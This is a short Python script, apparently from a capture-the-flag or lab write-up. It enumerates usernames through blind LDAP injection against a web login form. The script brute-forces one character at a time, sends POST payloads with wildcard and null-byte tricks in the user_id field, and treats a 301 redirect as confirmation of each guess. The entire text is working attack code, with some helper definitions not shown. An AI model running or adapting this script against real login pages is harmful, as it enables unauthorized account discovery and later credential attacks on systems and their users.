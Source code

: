 ```python
def getUser(letter): 

    user = letter 

    for i in range(1,10):
        for character in characters:
            payload = "user_id={}{}*))%00&password=*&login=1&submit=Submit".format(user,character)
            p1.status("Sending payload: {}".format(payload))
            p2.status(user)
            r = requests.post(url, headers=headers, data=payload, allow_redirects=False)
            if r.status_code == 301: 
                user+=character

    return user 


if __name__ == "__main__": 
    initialUsers = getInitialUsers()
    users = []
    for initial in initialUsers:
        users.append(getUser(initial))
        
    print("""\n\n============== Users finded =================  
(!) {}\n\n""".format(users))
```

